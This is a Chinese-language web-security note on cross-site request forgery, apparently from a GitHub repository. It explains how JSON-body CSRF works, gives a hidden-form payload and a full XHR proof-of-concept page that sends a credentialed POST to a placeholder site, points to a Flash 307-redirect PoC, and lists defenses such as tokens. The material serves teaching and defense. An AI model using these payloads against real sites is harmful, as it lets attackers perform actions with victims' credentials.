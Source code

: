 - [CSRF](#csrf)
  - [0x01 原理](#0x01-原理)
  - [CSRF with Json](#csrf-with-json)
    - [JSON格式](#json格式)
    - [XHR](#xhr)
    - [307 Flash跳转](#307-flash跳转)
  - [0x02 防御](#0x02-防御)
    - [参考](#参考)

# CSRF

## 0x01 原理
原理在于服务端无法确定请求是否是由正常用户发起的,攻击者将敏感请求嵌入在恶意页面中,受害者访问该页面自动触发该请求,受害者浏览器使用受害者的凭据自动向服务器进行敏感请求操作.
## CSRF with Json
### JSON格式
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
### XHR
Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests,同时需要CORS.
使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"});
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```
### 307 Flash跳转
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc
## 0x02 防御

1. 在敏感页面的请求中加入唯一的Token,后端对敏感请求进行Token校验,而正常情况下(如果存在XSS可获得Token)攻击者无法获得该Token,则无法冒充用户进行敏感操作.

2. 验证 HTTP Referer 字段,该方法可轻易绕过.

3. 在 HTTP 头中自定义属性并验证,类似于加Token,只是加在HTTP头中,即每个页面都会带上该Token校验头,而不必在每个相关页面代码中都加上Token.

### 参考

https://blog.csdn.net/zl834205311/article/details/81773511
https://tech.meituan.com/2018/10/11/fe-security-csrf.html
https://www.hahwul.com/2016/06/30/web-hacking-putdelete-csrfcross-site/